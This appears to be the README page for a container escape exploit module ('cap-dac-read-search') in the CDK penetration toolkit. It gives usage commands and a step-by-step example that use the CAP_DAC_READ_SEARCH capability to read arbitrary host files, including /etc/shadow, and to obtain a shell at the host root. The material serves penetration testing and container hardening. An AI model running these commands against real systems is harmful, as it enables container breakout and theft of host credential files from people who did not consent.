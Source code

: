 # Exploit: cap-dac-read-search

Thanks @nikitastupin.

If container is run with `CAP_DAC_READ_SEARCH` capability it is able to read arbitrary file from host system. This is possible because `CAP_DAC_READ_SEARCH` gives ability to bypass DAC (discretionary access control) checks and open files by file handles which are global file identifiers. Original exploit can be found at http://stealth.openwall.net/xSports/shocker.c.

# Usage

```bash
# read file from host
./cdk run cap-dac-read-search <target>

# specify bind mount point file path and read file
./cdk run cap-dac-read-search /etc/hosts /tmp/pwn

# when target file is /, this exploit will chdir to host root and execute a command(default: /bin/bash)
./cdk run cap-dac-read-search /etc/hosts /

# also you can specify what command to be executed, but cdk will recognize the string starting with'-' as its own option, so only some simple commands can be used
./cdk run cap-dac-read-search /etc/hosts / cat /tmp/pwn
```

# Example

1. Build `cdk`
1. Run a docker container `docker run -it --rm --cap-add CAP_DAC_READ_SEARCH -v "$(pwd)/cdk":/cdk ubuntu /bin/bash` 1. Run `cdk` exploit inside the container `cdk run cap-dac-read-search /etc/shadow /etc/hosts`

You should get `/etc/shadow` from host:

![host-shadow](https://user-images.githubusercontent.com/18281368/116560938-83be8380-a90a-11eb-9c07-5c58cc7a19b8.png)

Verify that `/etc/shadow` from container is different:

![container-shadow](https://user-images.githubusercontent.com/18281368/116560929-81f4c000-a90a-11eb-8ed1-cce4692a6b48.png)

ref: https://github.com/cdk-team/CDK/pull/27